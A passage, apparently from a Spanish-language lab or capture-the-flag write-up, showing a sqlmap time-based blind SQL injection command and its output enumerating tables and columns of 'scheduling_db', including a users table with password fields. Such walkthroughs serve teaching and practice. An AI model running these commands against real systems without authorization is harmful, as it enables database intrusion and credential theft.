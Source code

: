 ```r
[15:50:43] [INFO] resumed: courses
[15:50:43] [INFO] resumed: faculty
[15:50:43] [INFO] resumed: schedules
[15:50:43] [INFO] resumed: subjects
[15:50:43] [INFO] resumed: users
```
*Hemos listado el nombre de la base de datos y sus tablas...*

```r
❯ sqlmap --risk 3 --level 5 --random-agent -r ./request --technique=T --time-sec=1 --batch --columns -D scheduling_db
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.8.3#stable}
|_ -| . ["]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[15:53:17] [INFO] fetching columns for table 'class_schedule_info' in database 'scheduling_db'
[15:53:25] [INFO] retrieved: course_id
[15:54:05] [INFO] retrieved: int
[15:54:18] [INFO] retrieved: id
[15:54:27] [INFO] retrieved: int
[15:54:41] [INFO] retrieved: schedule_id
[15:55:29] [INFO] retrieved: int
[15:55:42] [INFO] retrieved: subject
[15:56:09] [INFO] retrieved: int


[15:56:23] [INFO] fetching columns for table 'subjects' in database 'scheduling_db'
[15:56:23] [INFO] retrieved: 3
[15:56:27] [INFO] retrieved: description
[15:57:12] [INFO] retrieved: text
[15:57:33] [INFO] retrieved: id
[15:57:41] [INFO] retrieved: int
[15:57:55] [INFO] retrieved: subj ect
[15:58:23] [INFO] retrieved: varchar(200)


[15:59:10] [INFO] fetching columns for table 'courses' in database 'scheduling_db'
[15:59:10] [INFO] resumed: 3
[15:59:10] [INFO] resumed: course
[15:59:10] [INFO] retrieved: varchar(200)
[15:59:57] [INFO] retrieved: description
[16:00:43] [INFO] retrieved: text
[16:01:03] [INFO] retrieved: id
[16:01:12] [INFO] retrieved: int


[16:01:26] [INFO] fetching columns for table 'users' in database 'scheduling_db'
[16:01:26] [INFO] retrieved: 5
[16:01:29] [INFO] retrieved: id
[16:01:38] [INFO] retrieved: int
[16:01:53] [INFO] retrieved: name
[16:02:08] [INFO] retrieved: text
[16:02:28] [INFO] retrieved: password
[16:03:03] [INFO] retrieved: text
[16:03:23] [INFO] retrieved: type
[16:03:42] [INFO] retrieved: tinyint(1)
[16:04:28] [INFO] retrieved: username
[16:04:58] [INFO] retrieved: varchar(200)
```
*Vemos una interesante...*
